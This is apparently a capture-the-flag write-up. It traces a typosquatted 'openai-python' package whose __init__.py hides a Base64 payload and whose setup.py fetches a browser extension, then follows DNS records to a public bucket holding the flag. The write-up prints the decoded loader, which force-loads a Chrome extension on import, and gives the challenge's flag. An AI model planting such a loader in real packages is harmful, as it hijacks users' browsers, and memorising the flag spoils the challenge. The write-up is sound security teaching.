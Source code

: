 # my-first-python-project

**Author**: YongJunLim

**Category**: Misc

Flag: `SEE{typ05qu4773d_p4ck4g3_n4m35_en4jal3z9mc0nh6nvbt548u0z47q9lso}`

## Description

I recently joined one of the SEE-IA's outreach programs, which offer a wide variety of enrichment activities for elementary, middle, and high school students. Their introductory program taught me about ChatGPT and how I could interface with it using the OpenAI Python library. I followed their tutorial exactly, yet it seems to make my computer a lot slower than I expected.

## Difficulty

Beginner Friendly

## Solution

1. The `requirements.txt` file references a Python package named `openai-python`. This is different from the official Python package provided by [OpenAI](https://pypi.org/project/openai/).

2. By searching the typosquatted package on https://pypi.mirror.seetf.sg/packages/simple/openapi-python, one is able to download and view the source distribution files `openai-python-0.26.5.tar.gz`.

3. Inside the source distribution files, `openai/__init__.py` contains a Base64 string which will be decoded and executed when the module `openai` is imported. The Base64 string is decoded to:
```python
extension_path = os.path.join(os.path.expanduser("~"), "Downloads", "Extension")
from platform import system
from subprocess import run
if os.path.exists(extension_path):
    name = system()
    if name == "Windows":
        run(["C:\Program Files (x86)\Google\Chrome\Application\chrome.exe", f"--load-extension={extension_path}"])
    elif name == "Darwin":
        run(["/Applications/Google Chrome.app/Contents/MacOS/Google Chrome", f"--load-extension={extension_path}"])
    elif name == "Linux":
        run(["/usr/bin/google-chrome", f"--load-extension={extension_path}"])
```

4. `extension_path` is also referenced in `setup.py`, which downloads the Chrome extension's files from http://pypi.seeia.seetf.sg during initial installation.

5. By performing a DNS lookup (`dig pypi.seeia.seetf.sg`), the domain is shown to be associated with the IP address `185.244.226.4`. A reverse DNS lookup shows that the IP address is associated with the domain [link.storjshare.io.](https://link.storjshare.io) as well.

6. Based on [Storj's documentation](https://docs.storj.io/dcs/how-tos/host-a-static-website/host-a-static-website-with-the-cli-and-linksharing-service), static websites can be hosted on Storj DCS (Decentralized Cloud Storage). In addition, the documentation states 2 TXT records are required in the following format:
```
txt-<hostname> 	IN	TXT  	storj-root:<bucket>/<prefix>
txt-<hostname> 	IN	TXT  	storj-access:<access key>
```

7. Using the dig command `dig txt-pypi.seeia.seetf.sg TXT` would show the 2 TXT records:
```
txt-pypi.seeia.seetf.sg. 3600    IN      TXT     "storj-access:jx4dw26pwrjp5rb6l2jn4a3nfy7a"
txt-pypi.seeia.seetf.sg. 3600    IN      TXT     "storj-root:site/src"
```

8. By searching for the format of shared bucket URLs from the documentation, one will find the [public bucket](https://link.storjshare.io/s/jx4dw26pwrjp5rb6l2jn4a3nfy7a/site) to contain `flag.txt` in the root directory.
